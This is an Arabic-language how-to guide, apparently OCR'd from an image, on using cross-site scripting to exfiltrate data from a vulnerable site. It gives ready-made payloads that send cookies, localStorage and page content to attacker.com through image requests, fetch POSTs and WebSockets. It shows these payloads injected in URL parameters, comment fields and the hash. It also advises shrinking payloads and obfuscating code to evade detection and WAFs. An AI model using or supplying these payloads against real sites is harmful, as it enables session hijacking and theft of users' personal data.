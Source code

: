 
## الخطوات العملية للحقن المستخدمة لاستخراج البيانات
1. **إعداد البيئة**:
   - استخدم متصفحًا مع أداة وكيل (مثل **Burp Suite** أو **OWASP ZAP**) لمراقبة الطلبات الصادرة.
   - أعد خادمًا خارجيًا (مثل خادم Python بسيط أو خدمة مثل `ngrok`) لتسجيل البيانات المستلمة.
   - افتح أدوات المطورين في المتصفح (F12) لمراقبة وحدة التحكم (Console)، الشبكة (Network)، وتغييرات DOM.
   - تأكد من وجود ثغرة XSS ناجحة (مثل تنفيذ `<script>alert('XSS')</script>`).

2. **تحديد البيانات المستهدفة**:
   - حدد البيانات الحساسة التي يمكن استخراجها، مثل:
     - ملفات تعريف الارتباط: `document.cookie`.
     - محتوى الصفحة: `document.body.innerHTML`، `document.getElementById('username').innerText`.
     - بيانات الجلسة: `localStorage`، `sessionStorage`.
     - بيانات المستخدم: عناصر مثل `<input>` أو `<span>` تحتوي على أسماء أو بريد إلكتروني.
   - افحص شيفرة الصفحة (عبر أدوات المطورين) لتحديد معرفات العناصر (IDs) أو الفئات (classes).

3. **إدخال الحقن**:
   - أدخل شيفرة JavaScript في نقطة الإدخال العرضة لـ XSS (مثل معلمة URL أو حقل تعليق).
   - صمم الحقنة لجمع البيانات وإرسالها إلى خادمك، مثل:
     - `<script>new Image().src='http://attacker.com/log?c='+encodeURIComponent(document.cookie)</script>`
     - `<script>fetch('http://attacker.com/log', {method: 'POST', body: document.body.innerHTML})</script>`
   - جرب الحقن في سياقات مختلفة:
     - معلمات URL: `https://example.com/?search=<script>new Image().src='http://attacker.com/log?c='+document.cookie</script>`
     - حقول نماذج: أدخل `<img src=x onerror=new Image().src='http://attacker.com/log?c='+document.cookie>` في تعليق.
     - الهاش: `https://example.com/#<script>fetch('http://attacker.com/log', {method: 'POST', body: document.cookie})</script>`

4. **مراقبة الاستجابات**:
   - تحقق من خادمك الخارجي لتأكيد استلام البيانات:
     - **نجاح (True)**: البيانات (مثل ملفات تعريف الارتباط أو محتوى الصفحة) تظهر في سجلات الخادم.
     - **فشل (False)**: لا تصل بيانات، أو يتم حظر الطلب (مثل بسبب CSP أو CORS).
   - استخدم أدوات المطورين (F12) لمراقبة طلبات الشبكة الصادرة (Network tab) للتأكد من إرسال البيانات.
   - تحقق من وجود أخطاء (مثل `blocked by CORS policy`) لتحديد القيود.

5. **تجربة طرق إرسال مختلفة**:
   - إذا فشلت الحقنة (مثل حظر الطلب بسبب CSP)، جرب طرق إرسال أخرى:
     - صور: `<img src="http://attacker.com/log?c=<data>">`
     - طلبات POST: `<script>fetch('http://attacker.com/log', {method: 'POST', body: <data>})</script>`
     - WebSocket: `<script>new WebSocket('ws://attacker.com').send(<data>)</script>`
   - جرب تشفير البيانات (مثل `encodeURIComponent`) لتجنب الأخطاء النحوية.
   - اختبر نقاط إدخال متعددة (مثل حقول نماذج أخرى أو معلمات URL مختلفة).

6. **تأكيد النطاق وتقليل الكشف (اختياري)**:
   - استخدم حقن تكشف نطاق التنفيذ (مثل `<script>new Image().src='http://attacker.com/log?d='+document.domain</script>`).
   - قلل حجم البيانات المرسلة (مثل إرسال `document.cookie` فقط بدلاً من `document.body.innerHTML`) لتجنب الكشف.
   - استخدم تقنيات التعتيم (مثل تقسيم الشيفرة أو التشفير) لتجاوز أنظمة الكشف عن الهجمات (WAF).

---